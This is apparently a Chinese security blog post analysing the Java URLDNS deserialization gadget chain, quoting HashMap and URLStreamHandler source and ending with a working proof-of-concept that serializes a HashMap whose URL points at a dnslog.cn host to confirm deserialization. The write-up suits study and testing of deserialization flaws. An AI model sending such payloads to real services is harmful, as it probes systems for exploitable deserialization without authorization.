




##  URLDNS POP链分析

## 前言

通过HashMap类的反序列化，达到触发DNS查询

直接在本地可以验证，不需要搭建环境

##  分析

###  pop链子

```java
java.util.HashMap.readObject();
-> java.util.HashMap.putVal();
-> java.util.HashMap.hash();
-> java.net.URL.hashCode();
-> java.net.URLStreamHandler.hashCode();
-> java.net.URLStreamHandler.getHostAddress();
```

###  反序列化流程分析

因为在反序列化的时候，我们调用的方法一般是`readObject`，所以这个反序列化链子的入口点也是`hashMap`的`readObject`方法。

先找到`readObject`方法

```java
private void readObject(java.io.ObjectInputStream s)
        throws IOException, ClassNotFoundException {
        // Read in the threshold (ignored), loadfactor, and any hidden stuff
        s.defaultReadObject();
        reinitialize();
        if (loadFactor <= 0 || Float.isNaN(loadFactor))
            throw new InvalidObjectException("Illegal load factor: " +
                                             loadFactor);
        s.readInt();                // Read and ignore number of buckets
        int mappings = s.readInt(); // Read number of mappings (size)
        if (mappings < 0)
            throw new InvalidObjectException("Illegal mappings count: " +
                                             mappings);
        else if (mappings > 0) { // (if zero, use defaults)
            // Size the table using given load factor only if within
            // range of 0.25...4.0
            float lf = Math.min(Math.max(0.25f, loadFactor), 4.0f);
            float fc = (float)mappings / lf + 1.0f;
            int cap = ((fc < DEFAULT_INITIAL_CAPACITY) ?
                       DEFAULT_INITIAL_CAPACITY :
                       (fc >= MAXIMUM_CAPACITY) ?
                       MAXIMUM_CAPACITY :
                       tableSizeFor((int)fc));
            float ft = (float)cap * lf;
            threshold = ((cap < MAXIMUM_CAPACITY && ft < MAXIMUM_CAPACITY) ?
                         (int)ft : Integer.MAX_VALUE);

            // Check Map.Entry[].class since it's the nearest public type to
            // what we're actually creating.
            SharedSecrets.getJavaOISAccess().checkArray(s, Map.Entry[].class, cap);
            @SuppressWarnings({"rawtypes","unchecked"})
            Node<K,V>[] tab = (Node<K,V>[])new Node[cap];
            table = tab;

            // Read the keys and values, and put the mappings in the HashMap
            for (int i = 0; i < mappings; i++) {
                @SuppressWarnings("unchecked")
                    K key = (K) s.readObject();
                @SuppressWarnings("unchecked")
                    V value = (V) s.readObject();
                putVal(hash(key), key, value, false, false);
            }
```

最重要的就是后面的for循环，读取键值，然后传给`putVal`函数，同时`key`进行了`hash`方法

跟进`hash方法`

```java
 static final int hash(Object key) {
        int h;
        return (key == null) ? 0 : (h = key.hashCode()) ^ (h >>> 16);
    }
```

判断key是否为空，跟进`hashCode`方法：

是一个native方法，native没有函数体，是一个java用来调用非java代码的接口



这个方法会根据传入的参数调用，我们传入的是一个URL对象，因此调用的是`java.net.URL`类的方法。**然后要使得hashCode==-1，进入`handler.hashCode(this)`**



跟进hashCode函数：

```java
 protected int hashCode(URL u) {
        int h = 0;

        // Generate the protocol part.
        String protocol = u.getProtocol();
        if (protocol != null)
            h += protocol.hashCode();

        // Generate the host part.
        InetAddress addr = getHostAddress(u);
        if (addr != null) {
            h += addr.hashCode();
        } else {
            String host = u.getHost();
            if (host != null)
                h += host.toLowerCase().hashCode();
        }

        // Generate the file part.
        String file = u.getFile();
        if (file != null)
            h += file.hashCode();

        // Generate the port part.
        if (u.getPort() == -1)
            h += getDefaultPort();
        else
            h += u.getPort();

        // Generate the ref part.
        String ref = u.getRef();
        if (ref != null)
            h += ref.hashCode();

        return h;
    }
```

最重要就是`getHostAddress`方法，这个点就触发了`DNS查询`

###  反序列化总结条件

1. 需要传入一个URL对象
2. URL实例对象里的`hashCode`属性需要为`-1`

###  序列化操作：

首先触发点是`hashMap`的`readObject`方法，所以需要序列化hashMap类

```java
//先创建一个hashMap实例对象，将url对象和字符串放进去
HashMap<URL, String> hashMap = new HashMap<URL, String>();
//创建URL对象
URL url = new URL("http://kx1o8n.dnslog.cn");
//我们需要改变URL对象中hashcode值，而且是private，我们只有通过反射来改变对象中private的值
Field f = URL.class.getDeclaredField("hashCode");
f.setAccessible(true);
// 这步是防止写入时触发dns查询
f.set(url, 1);
hashMap.put(url, "foo");

f.set(url, -1);
```

在hashMap类中，put方法（将键值对放入hashMap对象中），要调用`putVal`方法




这儿会触发DNS查询，所以先设置URL对象中`hashCode`值为1，然后触发，然后再修改回来就可以了

###  整体的payload

```java
public static void main(String[] args) throws  Exception{
    HashMap<URL, String> hashMap = new HashMap<URL, String>();
    URL url = new URL("http://kx1o8n.dnslog.cn");
    Field f = URL.class.getDeclaredField("hashCode");
    f.setAccessible(true);
    f.set(url, 1);
    hashMap.put(url, "z3yond");

    f.set(url, -1);
    File file = File.createTempFile("urldns",".out");
    //将java对象写入到字节码文件，实现序列化
    ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream(file));
    //写入hashMap对象实例，实现序列化
    oos.writeObject(hashMap);
    //反序列化
    ObjectInputStream ois = new ObjectInputStream(new FileInputStream(file));
    //触发DNS查询
    ois.readObject();
    file.deleteOnExit();
}
```



###  ysoserial URLDNS payload分析

```java
URLStreamHandler handler = new SilentURLStreamHandler();
HashMap ht = new HashMap();
URL u = new URL(null, url, handler); 
ht.put(u, url); 
Reflections.setFieldValue(u, "hashCode", -1); 
```

SilentURLStreamHandler重写了getHostAddress(URL u)，屏蔽了返回值，因此在生成payload的时候、也就是序列化的时候，不会触发dns查询。